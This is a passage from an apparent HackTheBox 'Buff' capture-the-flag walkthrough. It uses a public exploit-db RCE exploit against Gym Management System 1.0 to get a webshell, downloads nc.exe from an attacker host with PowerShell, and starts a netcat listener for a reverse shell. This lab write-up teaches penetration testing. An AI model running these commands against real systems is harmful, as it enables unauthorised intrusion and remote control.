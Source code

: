 

## Exploitation
---

Doing a seachsploit for Gym Managent Software 1.0 reveals that there are exploits for it in exploitdb.

![Image of gym searchsploit](/images/htb/buff/searchsploit-gym.png)

We find Gym Management System 1.0 - Unauthenticated Remote Code Execution under php/webapps/48506.py

The version matches and looking at the exploit code, it looks like the only argument required is the url for the site.

```terminal
python 48506.py http://buff.htb:8080/
```

![Image of initial shell](/images/htb/buff/shell-foothold.png)

We successfully get a webshell.

Although we can likely get the user.txt flag, we will first updrade to a proper netcat shell by uploading the netcat binary using powershell.

```
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.14/nc.exe','C:\xampp\htdocs\gym\upload\nc.exe')
```

Now that netcat is on the system, we can start a listener on our kali machine:

```terminal
nc -nlvp 4444
```
